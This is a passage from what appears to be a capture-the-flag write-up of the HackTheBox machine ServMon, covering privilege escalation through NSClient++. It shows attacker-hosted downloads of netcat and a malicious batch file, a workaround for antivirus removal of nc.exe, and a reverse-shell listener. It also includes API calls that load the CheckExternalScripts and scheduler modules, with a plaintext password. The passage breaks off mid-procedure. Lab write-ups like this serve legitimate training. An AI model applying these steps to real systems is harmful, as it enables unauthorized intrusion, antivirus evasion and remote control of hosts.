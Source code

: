  Ok, let's follow this instruction to do step by step:

build http server on kali :

```bash
python3 -m http.server 80
```

transfer files:

```cmd
cd C:\
mkdir temp
cd temp
curl.exe http://10.10.14.21/nc64.exe -o ncat.exe
curl.exe http://10.10.14.21/shell.bat -o shell.bat
```

I tried to download `nc.exe`  but it was blocked by the AV. AV will delete nc.exe so we can't build our reverse shell

So we need use another version of nc64.exe.

(1) downloaded it via powershell: 

```cmd
powershell.exe (Invoke-WebRequest -Uri "http://10.10.14.21/nc64.exe" -OutFile "C:\temp\ncat.exe")
```

(2) via scp:

```bash
scp nc64.exe nadine@10.129.40.157:/temp/ncat.exe
```

set up a listener on 443:

```bash
nc -lvp 443 
```

We ready follow the instructions to Login and enable  modules including enable at startup and save configuration by access `https://127.0.0.1:8443/`

![[ServMon.htb-12.png]]

The exploit then demonstrates that you can login via the web console, enable some modules, add a malicious bat script, and then create a scheduler to execute your malicious script.

However, whenever I tried doing these steps I would crash the server. The only way I could get things to work was doing all the configuration via the api. 

I ran the following commands to enable the `CheckExternalScripts` and `scheduler` modules:

```cmd
curl -s -k -u admin https://127.0.0.1:8443/api/v1/modules/CheckExternalScripts/commands/load
ew2x6SsGTxjRwXOT
```

```cmd
curl -s -k -u admin https://127.0.0.1:8443/api/v1/modules/scheduler/commands/load
ew2x6SsGTxjRwXOT
```
